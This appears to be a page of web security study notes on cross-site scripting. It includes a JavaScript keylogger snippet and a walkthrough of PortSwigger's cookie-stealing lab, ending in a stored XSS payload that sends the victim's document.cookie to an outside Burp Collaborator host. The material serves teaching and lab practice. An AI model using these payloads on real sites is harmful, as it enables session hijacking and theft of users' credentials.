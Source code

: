 ### Keylogging

```javascript
document.onkeypress = function(e) {

 get = window.event ? event : e

 key = get.keyCode ? get.keyCode : get.charCode

 key = String.fromCharCode(key)

 console.log(key)

}
```

## Examples

> The example below is based on PortSwigger's [_Exploiting cross-site scripting to steal cookies_](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies) lab.

The comment section on the web application is vulnerable to [Stored XSS](stored.md) (Figure 1).

```javascript
<script>alert(1)</script>
```

<figure><img src="../../../../.gitbook/assets/web_xss_cookies_1.png" alt=""><figcaption><p>Figure 1: Confirming a Stored XSS vulnerability.</p></figcaption></figure>

Now that we know about the Stored XSS flaw, we can use Burp's Collaborator and create a payload to steal another user's cookies (Figure 2).

```javascript
<script>
fetch(
'https://nwn712w9l1ca8s437qcetzwtdkjb72vr.oastify.com',
    {
        method:'POST',
        mode: 'no-cors',
        body: document.cookie
    }
);
</script>
```
